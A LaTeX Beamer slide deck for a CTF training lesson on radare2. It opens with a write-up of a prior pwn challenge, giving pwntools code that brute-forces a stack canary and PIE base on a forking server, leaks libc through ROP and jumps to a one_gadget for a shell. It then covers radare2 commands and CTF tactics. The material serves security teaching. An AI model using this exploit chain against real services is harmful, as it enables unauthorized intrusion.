\documentclass[aspectratio=169]{beamer}
\usepackage[normalem]{ulem}


\usepackage{../theme/flagbot}
\usepackage{pgfpages}

%\setbeameroption{show notes on second screen}

\tikzstyle{freecell}=[fill=none]

\newcommand{\reg}[1]{\%\mintinline{asm}{#1}}
\newcommand{\hex}[1]{\mintinline{python}{0x#1}}
\newcommand{\naddr}[2]{\begin{tabular}{l}#1\\\hex{#2}\end{tabular}}
\newcommand{\docl}[1]{(\textbf{\href{#1}{Documentation}})}

\hypersetup{colorlinks,linkcolor=,urlcolor=brightblue}

\setbeamertemplate{navigation symbols}{}

\showsectionframe

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Title Setup
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\title{Lesson 4: Reversing tools}
\subtitle{An in-depth look into radare2}
\author{Luca Di Bartolomeo - cyanpencil}
\date{\today}

\begin{document}
\titleframe

\tocframe

\section{Previous Challenge}
\begin{frame}[fragile]
    \frametitle{Challenge}
    {
        \begin{alertblock}{\textbf{protections}}
            On the surface this challenge should be very easy to exploit, however, there are some protections...\\
            \textbf{Hints:} No hints this time! Please do not run to many concurrent attempts, otherwise the server will be overloaded!\\
            \textbf{Files:} \href{https://flagbot.ch/protections.zip}{protections.zip}\\
            \textbf{Server:} google.jadoulr.tk 42002\\
            \textbf{Author:} Robin Jadoul
        \end{alertblock}
    }
\end{frame}

\begin{frame}[fragile]
	\frametitle{Initial Recon}
	\begin{itemize}
		\pause
		\item Running \inlinecode[bash]{checksec} reveals all the protections:
		\begin{itemize}
			\item FULL RELRO, Canary, NX enabled and PIE
		\end{itemize}
		\item Buffer overflow found very quickly, \reg{rip} is at \hex{58}
		\item However, canary is located at \hex{48}
		\item Binary does socket handling by itself! It uses \inlinecode[c]{fork}
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Leaking the Canary}
	\begin{itemize}
		\item To achieve anything with our buffer overflow, we have to leak the canary
		\pause
		\item I applied the technique shown last time, trying all values for the first byte, then the second, etc:
	\end{itemize}
	\begin{codebox}{python}
# tries to overflow `byte` number of bytes of the canary with `canary`
def try_canary(canary, byte):
	local_io = start()
	# overflow into canary
	payload = fit({
		canary_offset: p64(canary)[:byte]
	})
	local_io.send(payload)
	ret = local_io.recvall()
	return b"stack smashing" not in ret\end{codebox}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Leaking the Canary}
	\begin{itemize}
		\item Now just execute \inlinecode[python]{try_canary} in a loop:
	\end{itemize}
	\begin{codebox}{python}
# leak canary starting with value `starting` and byte `start_byte`
def leak_canary(starting = 0x0, start_byte = 2):
	current_canary = starting
	# leak byte by byte
	for i in range(start_byte, 9):
		log.progress(f"Trying to leak canary byte {i}")
		# try every value for current byte
		for b in range(0, 256):
			next_canary = b * pow(256, i-1) + current_canary
			if try_canary(next_canary, i):
				current_canary = next_canary
				break
	return current_canary\end{codebox}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Leaking the PIE base}
	\begin{itemize}
		\item Since we have NX, we need to either leak libc or PIE to be able to do something useful
		\item No easy way to leak libc for now, so leak PIE first
		\pause
		\item Idea: try overwriting \reg{rip} byte by byte.
		\item We can check success by trying to overwrite with address of \inlinecode[c]{welcome} function:
	\end{itemize}
	\begin{codebox}{python}
def try_pie_base(base, byte):
    local_io = start()
    rop = p64(base + exe.symbols.welcome)[:byte]
    ret = run_rop(local_io, rop) # helper that overwrites canary
                                 # correctly and rip with contents of rop
	return b"server." in ret\end{codebox}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Leaking the libc}
	\begin{itemize}
		\item Now we only need to know where \inlinecode[c]{system} is located in memory
		\item For this, though, we also need to know which libc we are dealing with
		\pause
		\item Use ROP to call \inlinecode[c]{puts(symbol@got)} for a few symbols
		\item Then use libc database to determine version:
	\end{itemize}
	\begin{codebox}{python}
def leak_got_symbol(name):
	local_io = start()
	rop = ROP(exe)
	rop.puts(exe.got[name])
	rop.exit()
	ret = run_rop(local_io, rop.chain())
	last = ret.split(b"\n")[-2]
	return u64(last.ljust(8, b"\0"))\end{codebox}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Getting a Shell}
	\begin{itemize}
		\pause
		\item After knowing libc version, download that libc and get libc base
		\item Run \inlinecode[bash]{one_gadget} over it to find suitable one
		\item Then simply jump to one\_gadget address directly:
	\end{itemize}
\begin{codebox}{python}
exit_offset = 0x0473c0 # location of exit in libc
libc_base = leak_got_symbol("exit") - exit_offset
log.info("Leaked libc base: 0x%x", libc_base)
one_gadget_addr = libc_base + 0x106ef8

final_rop = ROP(exe)
final_rop.call(one_gadget_addr)
io = start()
run_rop(io, final_rop.chain())
io.interactive()\end{codebox}
\end{frame}

\section{Radare2 introduction}

\begin{frame}[fragile]
    \frametitle{RAw DAta REcovery}
    \begin{itemize}
		\item Originally developed as a hex editor, features were added until it grew into an interactive disassembler, debugger, forensics tool, etc
		\item It's the perfect tool for low-level byte editing / viewing / diffing.
		\item It is \emph{not} a substitute for Ghidra or IDA or gdb; instead, you should use it \emph{along} those tools. More details later.
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Installation}
	\begin{itemize}
		\item radare2 is actively developed and very frequently updated
		\item distros have \textbf{very} old versions in their packages (looking at you, ubuntu)
		\item there is no "stable" version; the recommended version is the git one!
		\item do \textbf{*not*} install from your distro's repositories
	\end{itemize}
\end{frame}


\begin{frame}[fragile]
	\frametitle{Installation}
	\begin{itemize}
		\item do NOT install from your distro's repositories
		\item \inlinecode[bash]{git clone https://github.com/radareorg/radare2}
		\item \inlinecode[bash]{cd radare2; sys/install.sh}
		\item it's written in C, it will compile quickly.
	\end{itemize}
	\vspace{2em}
	\begin{itemize}
		\item if you want to install as non-root, use \inlinecode[c]{sys/user.sh}
	\end{itemize}
	\pause
	{
	\begin{alertblock}{\textbf{Warning}}
		The latest version right now is \textbf{4.3.1} \\
		\emph{Run} \inlinecode[c]{r2 -v} \emph{to see what is your version. Do not complain about any bugs you might encounter if you are running an older version.}
	\end{alertblock}
	}
\end{frame}

\begin{frame}[fragile]
	\frametitle{r2 GUI}
	\begin{itemize}
	\item Cutter is an (experimental) GUI for radare2. 
	\item It is particularly useful for beginners.
	\end{itemize}
	\vspace{2em} 
	\pause

	\begin{itemize}
		\item However, I must also add that it is the \emph{fourth} attempt at developing a GUI for r2.
		\item Not sure how long it's gonna last.
	\end{itemize}

\end{frame}

\begin{frame}[fragile]
	\frametitle{r2 documentation}
	\begin{itemize}
		\item Append a \texttt{?} character to any command for a short help text
		\item radare2book: \href{https://radare.gitbooks.io/radare2book/}{https://radare.gitbooks.io/radare2book/} 
		\item source code: \href{https://github.com/radareorg/radare2}{https://github.com/radareorg/radare2} (sorry)
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{r2 commands -- analysis}
	\begin{codebox}{python}
aa       # analyze all functions
aaa      # analyze all functions, and autorename
aaaa     # analyze all functions, autorename, stack variables, xrefs
aaaaa    # even more, experimental autoanalysis
af       # declare function at current address 
afl      # list functions
ax       # list all references
axt      # list cross-references to current address
axj      # list all references in json format
axff     # list all references from current function
agf      # print ascii-art graph of current function
agc      # print ascii-art graph of function call graph\end{codebox}
\end{frame}


\begin{frame}[fragile]
	\frametitle{r2 commands -- printing}
	\begin{codebox}{python}
pd 10    # print disassembly of the next 10 instructions
pdf      # print disassembly of current function
px       # print hexdump
pxr      # print with refs (telescoping)
ph md5 8 # print md5 hash of the next 8 bytes\end{codebox}
\end{frame}


\begin{frame}[fragile]
	\frametitle{r2 commands -- debugging}
	\begin{codebox}{python}
db       # add breakpoint
dbt      # show backtrace
dc       # continue
ds       # step
dso      # step over
dr       # show registers
drr      # show registers with refs
dm       # show memory maps
dmh      # show chunks in heap\end{codebox}
\end{frame}


\begin{frame}[fragile]
	\frametitle{r2 commands -- visual}
	Press \texttt{V} to enter visual mode. While there,
	\begin{codebox}{python}
p        # cycle between available visual modes
c        # show cursor
i        # insert bytes
s        # step instruction
S        # step over instruction
.        # return to instruction pointer
g        # jump to address or symbol
;        # add comment
B        # toggle breakpoint\end{codebox}
\end{frame}

\begin{frame}[fragile]
	\frametitle{r2 commands -- visual modes}
	There are many different interactive modes in r2.
	Those are the most used:
	\begin{codebox}{python}
Vp       # visual disassembly (standard r2 view)
VV       # ascii function graph mode
v        # visual panels mode (coolest one)
Vv       # function explorer mode\end{codebox}
\end{frame}

\begin{frame}[fragile]
	\frametitle{r2 commands -- config}
	You can use the command \inlinecode{e <config> = <value>} to change
	settings inside r2. Those are some of the most useful:
	\begin{codebox}{python}
asm.bits         # either 32 or 64
asm.arch         # set the architecture
scr.color        # 2 for full color, 1 for support mode, 0 for b/w
scr.highlight    # highlight given text from now on
scr.utf8         # enable fancy utf8
scr.utf8.curvy   # even fancier utf8
graph.offset     # show offsets in graphs
graph.refs       # show references in graphs
scr.wheel        # enable/disable mouse
scr.prompt.popup # fancy cmdline autocompletion\end{codebox}
	There are \emph{many, many} settings you can choose from. Command \inlinecode{e??} 
	will list all available settings.
\end{frame}


\begin{frame}[fragile]
	\frametitle{r2 commands -- cool tips}
	\begin{codebox}{python}
? 10     # convert 10 into various useful formats
% XXX: does a regex follow the tilde?
~        # grep output of previous command
?*~...   # interactive search in help
e??~...  # interactive search in all options
px > out # redirect output of command to file
wtf out  # write bytes to file
px @ 0x1 # execute command at address 0x1\end{codebox}
	\begin{itemize}
		\item stick startup commands into your \texttt{.radare2rc} in your home directory
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{CTF tactics}
	\begin{itemize}
		\item Take your time. Do not let yourself get stressed by the time limit of a CTF.
		\item Choose the tool that is best fit for the challenge.
		\item Before writing any exploit/code, make sure that you fully understand what the binary is doing.
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Cursed CTF tactics}
	\begin{itemize}
		\item \sout{Take your time. Do not let yourself get stressed by the time limit of a CTF.}
		\begin{itemize}
			\item Try to get the flag in the fastest, cheesiest way possible. A CTF is about getting \emph{first}, not about letting your processor collect dust.
		\end{itemize}
		\item \sout{Choose the tool that is best fit for the challenge.}
		\begin{itemize}
		\item Any kind of software that doesn't make your laptop burst into flames is fair game. Symbolic executors, advanced decompilers, experimental deobfuscators you just found on a shady github, whatever. Use every single weapon in your arsenal.
		\end{itemize}
		\item \sout{Before writing any exploit/code, make sure that you fully understand what the binary is doing.}
		\begin{itemize}
		\item Are you crazy? If you have a slight hunch about what the hell is happening, roll with it and try, usually you'll be right and finish in one tenth of the time of the guy who is reversing the whole binary. Remember, audentes fortuna iuvat.
		\end{itemize}
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{The strategy}
	\begin{center}
	
\includegraphics[scale=0.4]{angr_meme.jpg}
	\end{center}
\end{frame}



\begin{frame}[fragile]
    \frametitle{Frequently Asked Questions}
	Q: Why is it called radare2? Where is radare1?
	\begin{itemize}
		\item I don't know. I don't think anyone does.
    \end{itemize}

	Q: I found out that I have installed a very recent verion, \textit{\textless insert any number here\textgreater}.\\
	Is it okay if I use it?
	\begin{itemize}
		\item No. Use the git one.
	\end{itemize}
	Q: I will never remember all those cryptic commands and options. I don't think radare2 is for me.
	\begin{itemize}
		\item This is not a question.
	\end{itemize}
	
	Q: Honestly, this FAQ sucks, do you have anything better?
	\begin{itemize}
		\item You can forward all your complaints to \texttt{gallile@student.ethz.ch}
	\end{itemize}
\end{frame}

\section{Further Readings}

\begin{frame}[fragile]
    \frametitle{More radare2}
    \begin{itemize}
        \item ASLR
        \begin{itemize}
            \item \href{https://www.blackhat.com/docs/asia-16/materials/asia-16-Marco-Gisbert-Exploiting-Linux-And-PaX-ASLRS-Weaknesses-On-32-And-64-Bit-Systems-wp.pdf}{Exploiting Linux and PaX ASLR’s weaknesses on 32- and 64-bit systems}
        \end{itemize}
        \item Full RELRO
        \begin{itemize}
            \item \href{https://atum.li/2017/11/08/babyfs/}{BabyFS Writeup}: Abusing file structs 
            \item \href{https://made0x78.com/bseries-fullrelro/}{Full RELRO Bypass} using \inlinecode[c]{__malloc_hook}
            \item \href{}{} using libc exit routines
        \end{itemize}
    \end{itemize}
\end{frame}

\section{Challenge}

\begin{frame}[fragile]
    \frametitle{Challenge}
    {
        \begin{alertblock}{\textbf{revvy}}
            Okay, so good luck with this one. Use your head before you jump into reversing.\\
            \textbf{Hints:} No hints, this is not a lame youtube hacking tutorial. \\
            \textbf{Files:} \href{https://cdn.vis.ethz.ch/ctf/chals/revvy.zip}{revvy.zip}\\
            \textbf{Author:} Robin Jadoul
        \end{alertblock}
    }
\end{frame}
\end{document}
